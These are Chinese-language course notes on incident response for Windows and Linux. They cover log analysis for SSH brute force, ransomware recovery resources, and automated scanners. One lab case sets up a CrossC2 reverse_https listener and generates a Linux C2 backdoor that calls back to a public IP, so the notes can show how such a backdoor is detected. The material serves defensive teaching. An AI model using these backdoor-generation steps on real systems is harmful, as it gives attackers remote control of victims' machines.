



# 思维导图


# 知识点

### 操作系统(windows,linux)应急响应：

1.常见危害：暴力破解，漏洞利用，流量攻击，木马控制(Webshell,PC 木马等)，病毒感染(挖矿，蠕
虫，勒索等)。

2.常见分析：计算机账户，端口，进程，网络，启动，服务，任务，文件等安全问题

### 常见日志类别及存储：

Windows,Linux

### 补充资料：

[https://xz.aliyun.com/t/485](https://xz.aliyun.com/t/485)
[https://www.secpulse.com/archives/114019.html](https://www.secpulse.com/archives/114019.html)
[https://docs.microsoft.com/en-us/sysinternals/](https://docs.microsoft.com/en-us/sysinternals/)

### 病毒分析

PCHunter：[http://www.xuetr.com](http://www.xuetr.com)
火绒剑：[https://www.huorong.cn](https://www.huorong.cn)
Process Explorer：[https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer](https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer)
processhacker：[https://processhacker.sourceforge.io/downloads.php](https://processhacker.sourceforge.io/downloads.php)
autoruns：[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns)
OTL：[https://www.bleepingcomputer.com/download/otl/](https://www.bleepingcomputer.com/download/otl/)
SysInspector：[http://download.eset.com.cn/download/detail/?product=sysinspector](http://download.eset.com.cn/download/detail/?product=sysinspector)

### 病毒查杀

卡巴斯基：[http://devbuilds.kaspersky-labs.com/devbuilds/KVRT/latest/full/KVRT.exe](http://devbuilds.kaspersky-labs.com/devbuilds/KVRT/latest/full/KVRT.exe)
大蜘蛛：[http://free.drweb.ru/download+cureit+free](http://free.drweb.ru/download+cureit+free)
火绒安全软件：[https://www.huorong.cn](https://www.huorong.cn)
360 杀毒：[http://sd.360.cn/download_center.html](http://sd.360.cn/download_center.html)

### 病毒动态

CVERC-国家计算机病毒应急处理中心：[http://www.cverc.org.cn](http://www.cverc.org.cn)
微步在线威胁情报社区：[https://x.threatbook.cn](https://x.threatbook.cn)
火绒安全论坛：[http://bbs.huorong.cn/forum-59-1.html](http://bbs.huorong.cn/forum-59-1.html)
爱毒霸社区：[http://bbs.duba.net](http://bbs.duba.net)
腾讯电脑管家：[http://bbs.guanjia.qq.com/forum-2-1.html](http://bbs.guanjia.qq.com/forum-2-1.html)

### 在线病毒扫描网站

多引擎在线病毒扫描网/	 /[http://www.virscan.org](http://www.virscan.org ) 
腾讯哈勃分析系统/ 	 /[https://habo.qq.com](https://habo.qq.com ) 
Jotti 恶意软件扫描系统/	/[https://virusscan.jotti.org](https://virusscan.jotti.org ) 
计算机病毒、手机病毒、可疑文件分析	//[http://www.scanvir.com](http://www.scanvir.com ) 

# 演示案例

## 攻击响应-暴力破解(RDP,SSH)-Win,Linux

**案例 1-攻击响应-暴力破解(RDP,SSH)-Win,Linux**

#### Windows-LogFusion 载入查看

事件归类，事件 ID，事件状态等，参考百度资料






#### Linux-grep 筛选

1、统计了下日志，确认服务器遭受多少次暴力破解

```shell
grep -o "Failed password" /var/log/secure|uniq -c
```

2、输出登录爆破的第一行和最后一行，确认爆破时间范围：

```shell
grep "Failed password" /var/log/secure|head -1
grep "Failed password" /var/log/secure|tail -1
```

3、进一步定位有哪些 IP 在爆破？

```shell
grep "Failed password" /var/log/secure|grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-
4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0- 9]?)"|uniq -c | sort -nr
```

4、爆破用户名字典都有哪些？

```shell
grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr
```

5、登录成功的日期、用户名、IP：

```shell
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more
```


## 控制响应-后门木马(Webshell,PC)-Win,Linux

windows：默认配置测试
linux 借助 CrossC2 项目：netstat -ntulp
[https://github.com/gloxec/CrossC2](https://github.com/gloxec/CrossC2)
[https://github.com/darkr4y/geacon](https://github.com/darkr4y/geacon)
参考过程：[http://www.adminxe.com/1287.html](http://www.adminxe.com/1287.html)

1.项目上传至服务端目录，给予执行权限
2.配置监听器：
windows/beacon_https/reverse_https 阿里云记得端口放行
3.生成后门：
./genCrossC2.Linux 47.99.49.65 5566 null null Linux x64 C2
通过网络监听工具及 windows 日志分析或执行记录查找后门问题


## 危害响应-病毒感染(勒索 WannaCry)-Windows

**案例 3-危害响应-病毒感染(勒索 WannaCry)-Windows**
详细说明中毒表现及恢复指南

- 可以使用[360勒索病毒解密网站](https://lesuobingdu.360.cn/)进行病毒查询、在线解密等。
- [nomoreransom](https://www.nomoreransom.org/zh/index.html)网站尝试解密。
- 请专业团队进行恢复


## 自动化响应检测-Gscan 多重功能脚本测试-Linux

**案例 4-自动化响应检测-Gscan 多重功能脚本测试-Linux**
参考：[https://github.com/grayddq/GScan/](https://github.com/grayddq/GScan/)
自动化响应检测工具：GScan、chkrootkit、rkhunter、lynis
都下载一下，以备不时之需，应急响应时全都跑一遍
执行Gscan脚本即可
`python3  Gscan.py`

可以看到，黑客进行了哪些攻击行为，是否成功等等。



# 涉及资源：

[https://xz.aliyun.com/t/485](https://xz.aliyun.com/t/485)
[https://lesuobingdu.360.cn/](https://lesuobingdu.360.cn/)
[https://github.com/gloxec/CrossC2/](https://github.com/gloxec/CrossC2/)
[https://github.com/darkr4y/geacon/](https://github.com/darkr4y/geacon/)
[https://github.com/grayddq/GScan/](https://github.com/grayddq/GScan/)
[https://bbs.pediy.com/thread-217586-1.htm](https://bbs.pediy.com/thread-217586-1.htm)
[https://www.nomoreransom.org/zh/index.html](https://www.nomoreransom.org/zh/index.html)
[https://docs.microsoft.com/en-us/sysinternals/](https://docs.microsoft.com/en-us/sysinternals/)
[https://www.secpulse.com/archives/114019.html](https://www.secpulse.com/archives/114019.html)
[https://pan.baidu.com/s/1tQS1mUelmEh3I68AL7yXGg 提取码：xiao](https://pan.baidu.com/s/1tQS1mUelmEh3I68AL7yXGg 提取码：xiao)